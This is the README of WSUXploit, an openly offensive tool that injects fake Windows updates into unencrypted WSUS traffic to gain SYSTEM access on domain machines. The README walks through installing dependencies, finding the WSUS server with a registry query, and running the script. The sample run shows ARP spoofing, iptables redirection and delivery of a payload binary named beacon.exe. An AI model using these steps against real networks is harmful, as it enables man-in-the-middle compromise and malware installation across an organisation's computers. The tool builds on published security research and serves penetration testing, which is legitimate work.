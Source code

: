 # WSUXploit

Written by Marcio Almeida to weaponize the use of [WSUSpect Proxy](https://github.com/ctxis/wsuspect-proxy/) created by Paul Stone and Alex Chapman in 2015 and public released by [Context Information Security](http://www.contextis.com)

## Summary

This is a MiTM weaponized exploit script to inject 'fake' updates into non-SSL WSUS traffic.
It is based on the WSUSpect Proxy application that was introduced to public on the Black Hat USA 2015 presentation, 'WSUSpect – Compromising the Windows Enterprise via Windows Update'

Please read the White Paper and the presentation slides listed below:

- White paper: http://www.contextis.com/documents/161/CTX_WSUSpect_White_Paper.pdf
- Slides: http://www.contextis.com/documents/162/WSUSpect_Presentation.pdf

## Prerequisites and Installation

You'll need install some programs used by this attack. You can do this by running:
```
sudo apt-get install samba dsniff iptables python
```

PS: Kali Linux builds already have all the before mentioned dependencies.

WSUSpect Proxy requires the Python Twisted library. You can install it by running:
```
pip install twisted
```

Clone this repository and the WSUSpect Proxy repository. You can do it by running:
```
# clone WSUXploit repository
git clone https://github.com/pimps/wsuxploit.git

# enter on wsuxploit directory
cd wsusxploit

# clone WSUSpect Proxy repository
git clone https://github.com/ctxis/wsuspect-proxy.git
```

You're ready to go now :-)

## Usage

First things first...

Discover the WSUS address inside of the network that you're attacking and verify if it uses http protocol. If yes, you can use this exploit to get SYSTEM access to any windows target inside of that domain.

If you already have access to a Domain Machine, you can easily get the address of the WSUS server executing the following command:

```
reg query HKLM\Software\Policies\Microsoft\Windows \WindowsUpdate /v WUServer
```

You should see a response similar to that:

```
WUServer   REG_SZ  http://10.1.1.1:8535/
```

After confirm that the network you're attacking uses HTTP for Windows Update, you're good to go.

```
root@kali-mini:/tmp/wsuxploit# ./wsuxploit.sh 
 __      __  _____________ _______  ___      .__         .__  __   
/  \    /  \/   _____/    |   \   \/  /_____ |  |   ____ |__|/  |_ 
\   \/\/   /\_____  \|    |   /\     /\____ \|  |  /  _ \|  \   __\ 
 \        / /        \    |  / /     \|  |_> >  |_(  <_> )  ||  |  
  \__/\  / /_______  /______/ /___/\  \   __/|____/\____/|__||__|  
       \/          \/               \_/__|                         by pimps
Usage:
./wsuxploit.sh <TARGET_IP> <WSUS_IP> <WSUS_PORT> <BINARY_PATH>

Example:
./wsuxploit.sh 192.168.0.101 10.0.0.85 80 /tmp/payload.exe

root@kali-mini:/tmp/wsuxploit# ./wsuxploit.sh 192.168.0.101 10.1.1.1 8535 /tmp/beacon.exe
 __      __  _____________ _______  ___      .__         .__  __   
/  \    /  \/   _____/    |   \   \/  /_____ |  |   ____ |__|/  |_ 
\   \/\/   /\_____  \|    |   /\     /\____ \|  |  /  _ \|  \   __\ 
 \        / /        \    |  / /     \|  |_> >  |_(  <_> )  ||  |  
  \__/\  / /_______  /______/ /___/\  \   __/|____/\____/|__||__|  
       \/          \/               \_/__|                         by pimps
[*] Preparing exploit files...
[*] Spoofing arp replies...
[*] Turning on IP forwarding...
[*] Set iptables rules for SYN packets...
[*] Running WSUSpect proxy...
2017-06-30 09:46:59+1000 [-] Log opened.
2017-06-30 09:46:59+1000 [-] InterceptingProxyFactory starting on 9090
2017-06-30 09:46:59+1000 [-] Starting factory <intercepting_proxy.InterceptingProxyFactory instance at 0xb650ce8c>

```

Wait for the Auto-Update requests, they happen by default every 23h and for the Important Update installs, they happen by default every 24h.
